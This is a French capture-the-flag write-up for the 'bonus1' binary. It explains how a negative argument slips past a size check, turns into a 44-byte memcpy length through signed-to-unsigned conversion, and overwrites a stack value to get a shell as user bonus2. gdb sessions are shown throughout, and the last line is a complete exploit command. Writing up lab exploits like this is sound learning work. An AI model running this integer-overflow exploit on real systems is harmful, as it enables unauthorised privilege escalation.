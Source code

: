 Afin de resoudre ce challenge il y a deux etapes a passer:  
  
La premiere consiste a ecrire un nombre qui doit etre plus petit ou egale '9', qui sera ensuite multiplier par 4 et sera le troisieme argument de memcpy().  
  
Le deuxieme etape consiste a ecraser l adresse 0xbffff6fc qui devra avoir pour valeur 0x574f4c46, nous pouvons voir que cette adresse est le premiere argument de la fonction memcpy()+40 et le deuxieme argument de memcpy est argv[2].  
=> 0x08048473 <+79>:    call   0x8048320 <memcpy@plt>  
(gdb) x/wx $esp  
0xbffff6c0:     0xbffff6d4  
(gdb) x/wx $esp+0x3c  
0xbffff6fc:     0xc000000c  
(gdb) p/d 0xbffff6fc-0xbffff6d4  
$45 = 40  
  
  
Nous devons donc pouvoir ecrire 44 octets avec argv[2] a partir de 0xbffff6fc pour ecraser 0xbffff6fc.  
Seulement, si nous multiplions 9 par 4 nous obtenons 36, ce qui n est pas suffisant pour ecraser les donnees de l adresse que nous devons modifier.  
En m'inspirant de cette doc, j'ai exploiter une vulnerabiliter de type "Exploiting these weaknesses":  
https://blog.feabhas.com/2014/10/vulnerabilities-in-c-when-integers-go-bad/#Exploiting_these_weaknesses  
Memcpy prend un size_t en troisieme argument, qui n accepte pas les valeurs inferieur a zero. Du coup si nous mettons -1 en premier parametre et que nous le converitssons dans sa valeur unsigned, nous obtenons ceci:  
(gdb) p/x -1  
$11 = 0xffffffff  
(gdb) p/u 0xffffffff  
$12 = 4294967295  
Le p/u signifie que nous voulons le resultat en unsigned int.  
Nous pouvons voir que memcpy prend un troisieme parametre avec une taille impressionnante.
Nous sommes deja a -1, et nous voulons pouvoir ecrire 44 bytes (il nous reste donc 43 bytes), nous pouvons donc continuer dans le negatif afin de remmettre un signe negatif a cette valeur pour qu il redevienne positif:  
  
(gdb) p/u -(0xffffffff-43)  
$29 = 44  
  
Nous savons que le nombre sera multiplier par 4, vu que nous sommes en positif, nous devons de notre coter le diviser:  
  
(gdb) p/d (0xffffffff-43)
$33 = 4294967252
(gdb) p/d (0xffffffff-43)/4
$34 = 1073741813  
  
(gdb) p/d 4294967252%4  
$15 = 0  
  
Pour le modulo, ce n est pas trop important, on a une marge d erreur de 3 unites au dessus de 1073741813 vu que la division ne garde pas le reste.
  
(gdb) p/x -1073741813  
$37 = 0xc000000b  
  
Le premier c de 0xc000000b represente le bit de signe, negatif dans notre cas, du coup si on le passe en positif nous obtenons le chiffre 11 (11*4=44):
  
(gdb) p/u 0x0000000b  
$42 = 11  
  
Du coup, si nous passons notre variable en negatif, nous obtenons 11*4=44 dans le troisieme parametre du memcpy(), nous avons un beau shell avec les droits de l utilisateur bonus2:
  
./bonus1 -1073741813 $(python -c "print 'A' * 40 + '\x46\x4c\x4f\x57'")
